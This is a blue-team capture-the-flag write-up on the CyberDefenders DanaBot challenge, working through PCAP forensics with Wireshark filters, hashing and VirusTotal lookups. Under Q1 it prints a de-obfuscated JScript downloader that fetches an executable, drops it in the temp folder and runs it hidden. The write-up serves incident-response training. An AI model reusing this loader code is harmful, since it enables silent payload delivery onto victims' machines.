 https://cyberdefenders.org/blueteam-ctf-challenges/danabot

Scenario:
>The SOC team has detected suspicious activity in the network traffic, revealing that a machine has been compromised. Sensitive company information has been stolen. Your task is to use Network Capture (PCAP) files and Threat Intelligence to investigate the incident and determine how the breach occurred.

**Q1. What is the name of the malicious file used for initial access?**

I used the following query to find HTTP responses containing file downloads:

```
http.response.code == 200 && http.content_type
```

From the results available only one of them was clearly a malicious file (an obfuscated javascript file and a DLL). Here's the de-obfuscated result of the former:

```
function generateRandomName(length) {
    var chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    var result = "";
    for (var i = 0; i < length; i++) {
        result += chars.charAt(Math.floor(Math.random() * chars.length));
    }
    return result + ".exe";
}
var fso = new ActiveXObject("Scripting.FileSystemObject");
var shell = WScript.CreateObject("WScript.Shell");
var tempFolder = fso.GetSpecialFolder(2);
var randomExe = generateRandomName(10);
var exePath   = tempFolder + "\\" + randomExe;
var http = WScript.CreateObject("MSXML2.XMLHTTP");
var obfuscatedUrl = "ueNcGq";  

http.Open("GET", obfuscatedUrl, false);
http.Send();

if (http.Status == 200) {
    var stream = WScript.CreateObject("ADODB.Stream");
    stream.Open();
    stream.Type = 1;
    stream.Write(http.ResponseBody);
    stream.Position = 0;
    stream.SaveToFile(exePath, 2);
    stream.Close();
    
    shell.Run(exePath, 0, true);
}

shell.Run(WScript.ScriptFullName);
```

This looks malicious!

**Q2. What is the SHA-256 hash of the malicious file used for initial access?**

I exported the file (Export Objects > HTTP... > select file), then ran `sha256sum login.php` on my device to find the hash.

**Q3. Which process was used to execute the malicious file?**

We can infer this from the code: WScript.***

**Q4. What is the file extension of the second malicious file utilized by the attacker?**

We know this from the other suspicious file available for export. To confirm, I exported it, obtained the hash, and looked it up: https://www.virustotal.com/gui/file/2597322a49a6252445ca4c8d713320b238113b3b8fd8a2d6fc1088a5934cee0e Turns out this is actually an executable!

**Q5. What is the MD5 hash of the second malicious file?**

I leave this as an exercise for the reader.

**Q6. Which IP address was used by the attacker during the initial access?**

Thanks to the list of Contacted IP addresses in the VirusTotal Relations section, I was able to figure this out. However, it is just a SYN packet without a reply.

**Q7. What is the final malicious IP address, found in the PCAP, that is used as the command and control (C2) server by DanaBot?**

I also learned this from the list of VT IP addresses.
